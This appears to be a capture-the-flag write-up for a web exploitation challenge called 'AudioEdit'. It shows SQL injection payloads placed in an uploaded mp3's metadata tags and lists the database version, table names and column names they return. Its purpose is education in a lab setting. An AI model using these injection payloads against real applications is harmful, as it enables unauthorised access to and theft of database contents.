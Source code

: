 ```yaml
---
layout: writeup
title: 'Web Exploitation 200: AudioEdit'
level:
difficulty:
points:
categories: []
tags: []
flag:
---
```

**Challenge**   
I made a cool site to edit audio files. [Can you exploit it?][1]

**Solution**   
The website lets you upload mp3 files and then displays some metadata
and plays it for you.

It has to be a valid mp3 file

We try if we can put SQL injection in the exifdata and indeed we can:
(exiftool doesn't do exifdata updates for mp3 so we used easytag)

    foo', (SELECT VERSION())) -- -
    > Author: foo
    > Title: 5.5.49-0ubuntu0.14.04.1
    
    foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -
    > Author: foo
    > Title: audioedit
    
    foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='audioedit')) -- -
    > Author: foo
    > Title: id,file,author,title
    
    foo', (SELECT GROUP_CONCAT(CONCAT(id, ':', file, ':' , author, ':' , title )) FROM audioedit)) -- -
    > error inserting into database



[1]: http://107.170.122.6/audioedit/

